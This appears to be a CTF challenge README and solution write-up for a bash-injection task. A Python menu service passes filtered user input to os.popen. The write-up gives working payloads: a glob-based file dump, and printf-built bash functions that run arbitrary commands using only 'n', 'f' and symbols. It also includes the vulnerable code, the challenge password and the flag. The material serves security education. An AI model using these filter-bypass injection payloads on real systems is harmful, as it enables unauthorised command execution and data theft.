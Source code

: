 # Bashing your spirit foods
Testing on bash injection knowledge

<i>Creator - @Platy</i>

## Category
Misc.

## Question
You are not yourself when you are hungry. Have a CTF challenge and stop <i>bashing</i> people up.

Connect via `nc 127.0.0.1 2500` (Change to desired ip address and port)

## Hint
`I hate needles`

## Setup
Do `bash start.sh`

## Solution
This challenge tests on bash injection.
```
Foods available
[n]achos
[f]ishies
> 
```
If we try to enter any other letters besides `n` or `f`, we will get:
```
Sorry, but we do not serve these here. Maybe next time!
```
When we try to get `n` for nachos, we get this:
```
  _   _            _               
 | \ | |          | |              
 |  \| | __ _  ___| |__   ___  ___ 
 | . ` |/ _` |/ __| '_ \ / _ \/ __|
 | |\  | (_| | (__| | | | (_) \__ \
 |_| \_|\__,_|\___|_| |_|\___/|___/

Hope you enjoy!
sh: 1: n: not found
```
Same goes when we type `f` except we get 'Fishies' instead of 'Nachos'.

We get `sh: 1 n: not found`. It runs a shell with the input as the command. For example, if we entered `cat /etc/passwd`, the output will be printed back. However, we cannot use such a enter that because it contains other letters besides `n` or `f`. When we try `nnnnnn`, it shows `sh: 1: nnnnnn: not found`.

First, we should try using cat to view the contents of all the files. But how can we send cat using only `n` or `f`? It turns out after trying many different characters, it accepts special characters `!@#$%^*()[]{};',.` etc.

```
[n]achos
[f]ishies
> ()
Hope you enjoy!
sh: 1: Syntax error: ")" unexpected
```

So we can use special characters and the letters `n` and `f`. Now we're getting somewhere. Unix has autocompletion functions. Typing out `cat *` well expand to `cat <filename>`. The asterisk represents any number of characters. The question marks represents only one character.

So by inputting `/??n/??? *`, we manage to view all the files on the folder as well as some system files. This reveals the python script and shows what it is actually doing

```python
def getFlag():
	input = raw_input('''Foods available
[n]achos
[f]ishies
> ''')
	if (re.findall('[0-9a-eg-mo-zA-Z]',input) == []):
		if input == 'n':
			nachos()
		elif input == 'f':
			fish()
		print 'Hope you enjoy!'
		print os.popen(input).read()
	else:
		print 'Sorry, but we do not serve these here. Maybe next time!'
```

We can now see that it filters out `[0-9a-eg-mo-zA-Z]`.

By using autocompletition again, we can use `printf` to output the necessary characters to the file.

Locate `printf` by using `/*/??n/???n?f`

Functions can be created in bash `functionName(){ function; }`. By using this method we can create a print function `n(){ /*/??n/???n?f ${@}; };` where `${@}` represents the parameters passed to the print function

We can use octal to print out characters. All we need now is to be able to print numbers without actually printing numbers.

`${#}` counts the number of arguments specified to the print function. Using the previously declared function `n`, we can use it to create a new function `f(){ n ${#}; };`

Now we can specify any number we want and by extension, whatever string we want. This prints out 'a' because the octal for 'a' is '141'. Therefore, there are 3 function `f` with 1, 4 and 1 as arguments respectively:
```bash
n(){ /*/??n/???n?f ${@}; }; f(){ n ${#}; };n $(n \\\\`f "" ; f "" "" "" "" ; f "" ; `;)
```

We can add another `$()` that acts like an 'eval' function which allows us to run whatever command we like. You can run any command with nothing more than 'n', 'f' and a bunch of special characters!

For example, `ls` becomes this:
```bash
n(){ /*/??n/???n?f ${@}; }; f(){ n ${#}; };$(n $(n \\\\`f "" ; f "" "" "" "" "" ; f "" "" "" "" ; `;n \\\\`f "" ; f "" "" "" "" "" "" ; f "" "" "" ; `;))
```

There is a generator `gen.py` in the solution folder to generate the commands.

Basically, we have shell access with a very troublesome way to run commands.

We can now use `ls -la` to find if there are any interesting files.

There are 2 files, `flag.txt` and `.v13wF1a6`. We do not have permission to view the `flag.txt`, however, when `.v13wF1a6` runs, the program runs as user 'bashing_pwn' which happens to be the owner of `flag.txt`.

Running the program shows this: `Requires argv[1] as password`. Great! Now we need a password. Using `strings .v13wF1a6` we are able to deduce that the password is `f1ag_iz_n0t_f4r_aw4y_if_y0u_believ3`.

Running the program again with the correct password gives you the flag. Final command is in `solution.txt` in the solution folder.

Phew! That was very lengthy and probably a lot to absorb.

### Flag
Flag: flag{this_is_a_flag} (Change to desired flag)

## Distribution
No files to be distributed

### Credits
33c3 ctf - 2016

Misc.

hohoho - 350pts
